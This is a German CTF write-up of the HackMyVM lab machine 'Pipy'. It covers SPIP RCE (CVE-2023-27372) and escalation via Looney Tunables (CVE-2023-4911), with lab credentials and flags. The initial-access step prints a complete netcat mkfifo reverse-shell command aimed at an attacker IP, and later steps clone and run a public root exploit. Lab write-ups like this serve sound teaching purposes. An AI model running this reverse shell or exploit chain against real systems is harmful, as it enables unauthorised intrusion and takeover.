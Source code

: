 # Pipy - HackMyVM (Easy)

![Pipy.png](Pipy.png)

## Übersicht

*   **VM:** Pipy
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Pipy)
*   **Schwierigkeit:** Easy
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 2023-10-26
*   **Original-Writeup:** https://alientec1908.github.io/Pipy_HackMyVM_Easy/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war es, Root-Rechte auf der Maschine "Pipy" zu erlangen. Der Weg dorthin begann mit der Entdeckung einer SPIP 4.2.0 CMS-Installation auf dem Webserver. Eine bekannte Remote Code Execution (RCE)-Schwachstelle in dieser SPIP-Version (CVE-2023-27372) wurde mittels eines Python-Exploits ausgenutzt, um eine Reverse Shell als `www-data` zu erhalten. Nach dem Zugriff wurde in einer SPIP-Konfigurationsdatei (`/config/connect.php`) das MySQL-Root-Passwort (`dbpassword`) gefunden. In der MySQL-Datenbank (`spip.spip_auteurs`) wurde das Klartextpasswort (`4ng3l4`) für den Benutzer `angela` entdeckt. Die finale Rechteausweitung zu Root gelang durch Ausnutzung der "Looney Tunables"-Schwachstelle (CVE-2023-4911) in der installierten GLIBC-Version (2.35), für die ein öffentlicher Exploit kompiliert und ausgeführt wurde.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `vi` / `nano`
*   `nikto`
*   `nmap`
*   `gobuster`
*   `dirb`
*   `msfvenom`
*   `nc` (Netcat)
*   `wget`
*   `python3 http.server`
*   Python3 (Exploit-Skripts, Shell-Stabilisierung)
*   `git`
*   `gcc` / `make` (für Kernel-Exploit)
*   `mysql`
*   Standard Linux-Befehle (`cat`, `ls`, `id`, `uname`, `getcap`, `find`, `su`, `sudo` (versucht), `cd`, `echo`, `ldd`, `mkdir`, `rm`, `mkfifo`)
*   Custom Exploit: `rce_spip.py` (für CVE-2023-27372)
*   Custom Exploit: für CVE-2023-4911 (Looney Tunables)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Pipy" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   IP-Adresse des Ziels (192.168.2.106) mit `arp-scan` identifiziert. Hostname `pipy.hmv` in `/etc/hosts` eingetragen.
    *   `nmap`-Scan offenbarte Port 22 (SSH, OpenSSH 8.9p1) und Port 80 (HTTP, Apache 2.4.52).
    *   `nikto` und `nmap`-Skripte identifizierten das CMS SPIP 4.2.0.
    *   `gobuster` und `dirb` fanden SPIP-Verzeichnisse (`/ecrire`, `/config`, `/tmp`, etc.) und `htaccess.txt`. LFI-Versuche auf `spip.php?page=` scheiterten.

2.  **Initial Access (RCE via SPIP Exploit als `www-data`):**
    *   Recherche nach Exploits für SPIP 4.2.0 führte zu CVE-2023-27372 (RCE). Ein Python-Exploit (`rce_spip.py`, basierend auf EDB-ID 51536) wurde verwendet.
    *   Eine Netcat-Reverse-Shell-Payload (generiert mit `msfvenom` oder manuell) wurde direkt mit dem SPIP-Exploit auf dem Ziel ausgeführt: `python3 rce_spip.py -u http://pipy.hmv -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ANGRIFFS_IP 4443 >/tmp/f'`.
    *   Eine Reverse Shell als `www-data` wurde auf einem Netcat-Listener (Port 4443) empfangen und stabilisiert.

3.  **Privilege Escalation (von `www-data` zu `angela` via MySQL Credentials):**
    *   Als `www-data` wurde die Datei `/var/www/html/config/connect.php` gefunden.
    *   Diese Datei enthielt MySQL-Zugangsdaten: `root`:`dbpassword` für die Datenbank `spip`.
    *   Login in die lokale MariaDB-Datenbank mit diesen Credentials.
    *   In der Tabelle `spip.spip_auteurs` wurde der Benutzer `angela` mit dem Klartextpasswort `4ng3l4` gefunden.
    *   Mit `su angela` und dem Passwort `4ng3l4` wurde erfolgreich zum Benutzer `angela` gewechselt.
    *   Die User-Flag (`dab37650d43787424362d5805140538d`) wurde in `/home/angela/user.txt` gefunden.

4.  **Privilege Escalation (von `angela` zu `root` via Looney Tunables / CVE-2023-4911):**
    *   Als `angela` wurde die GLIBC-Version (`ldd --version`) zu 2.35 identifiziert, die anfällig für die "Looney Tunables"-Schwachstelle (CVE-2023-4911) ist. `sudo -l` zeigte keine direkten Rechte.
    *   Ein öffentlicher Exploit für CVE-2023-4911 wurde von GitHub (`https://github.com/leesh3288/CVE-2023-4911.git`) nach `/dev/shm/hacker/CVE-2023-4911/` auf dem Zielsystem geklont.
    *   Der Exploit (`exp.c`) wurde mit `gcc exp.c -o hack` kompiliert.
    *   Durch Ausführen von `./hack` wurde die GLIBC-Schwachstelle ausgenutzt und eine Root-Shell erlangt (`uid=0(root)`).
    *   Die Root-Flag (`ab55ed08716cd894e8097a87dafed016`) wurde in `/root/root.txt` gefunden.

## Wichtige Schwachstellen und Konzepte

*   **Bekannte CMS-Schwachstelle (SPIP RCE / CVE-2023-27372):** Eine veraltete Version des SPIP CMS war anfällig für Remote Code Execution.
*   **Klartext-Datenbank-Credentials in Konfigurationsdatei:** Das MySQL-Root-Passwort war in `connect.php` gespeichert.
*   **Klartextpasswörter in Datenbank:** Das Passwort für den Benutzer `angela` war unverschlüsselt in der `spip_auteurs`-Tabelle gespeichert.
*   **Kernel/Bibliotheks-Schwachstelle (Looney Tunables / CVE-2023-4911):** Eine anfällige Version der GLIBC ermöglichte lokale Privilegieneskalation zu Root.
*   **Information Disclosure:** Nikto und Nmap enthüllten verwendete Softwareversionen und Konfigurationsdetails.

## Flags

*   **User Flag (`/home/angela/user.txt`):** `dab37650d43787424362d5805140538d`
*   **Root Flag (`/root/root.txt`):** `ab55ed08716cd894e8097a87dafed016`

## Tags

`HackMyVM`, `Pipy`, `Easy`, `SPIP RCE`, `CVE-2023-27372`, `Database Leak`, `MySQL`, `Looney Tunables`, `CVE-2023-4911`, `GLIBC Exploit`, `Linux`, `Web`, `Privilege Escalation`, `Apache`
